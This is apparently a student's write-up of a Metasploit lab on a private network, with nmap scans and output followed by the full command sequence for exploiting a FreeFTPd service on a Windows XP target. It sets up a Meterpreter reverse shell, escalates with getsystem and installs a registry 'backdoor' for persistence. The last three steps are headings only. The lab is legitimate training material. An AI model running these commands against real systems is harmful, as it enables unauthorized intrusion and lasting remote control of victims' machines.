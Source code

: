 #Metasploit Lab - RCM 8/18/2021

#Description

In this lab, you will have to use Metasploit and meterpreter against a real machine; this will help you become familiar with the Metasploit framework and its features.

#Goal

The goals of the lab are to:

    Identify the target machine on the network

    Find a vulnerable service

    Exploit the service by using Metasploit to get a meterpreter session

    Gather information from the machine by using meterpreter commands

    Retrieve the password hashes from the exploit machine

    Search for a file named \"Congrats.txt\"

#Tools

The best tools for this lab are:

    Nmap

    Metasploit (Metasploit 5 is recommended)

    John the Ripper

#Steps

1. Find target in the network
`nmap -sn 192.168.99.100/24`
Target IP: `192.168.99.12`

2. Identify available services on the target
`nmap -sV -sS -v 192.168.99.12 -oN morenmap.txt`
```
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FreeFTPd 1.0
22/tcp   open  ssh           WeOnlyDo sshd 2.1.8.98 (protocol 2.0)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:50:56:A2:59:7E (VMware)
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```

3. Find vulnerable service in metasploit
`search freeftp` in metasploit

4. Configure module and exploit the machine
`use exploit/windows/ftp/freeftpd_pass`
`show options`
`set ftpuser anonymous`
`set RHOSTS 192.168.99.12`
`set RPORT 21`
`set payload windows/meterpreter/reverse_tcp`
`set exitfunc process`
`set lhost 192.168.99.100`
`set lport 4444`
`exploit`


5. Obtain system privileges on the machine

Remote access gained with meterpreter shell.
Obtain system privileges from ftpuser to system.
`getsystem`

6. Install a backdoor

Background meterpreter session with ctrl+Z and check session id with sessions -l

`use exploit/windows/local/persistence` > `show options`
`set reg_name backdoor`
`set exe_name backdoor`
`set startup SYSTEM`
`set session 1`
`set payload windows/meterpreter/reverse_tcp`
`set exitfunc process`
`set lhost 192.168.99.100`
`set lport 5555`
`set DisablePayloadHandler false`

7. Get password hashes and crack them


8. Gather info


9. Locate and download the congrats.txt file
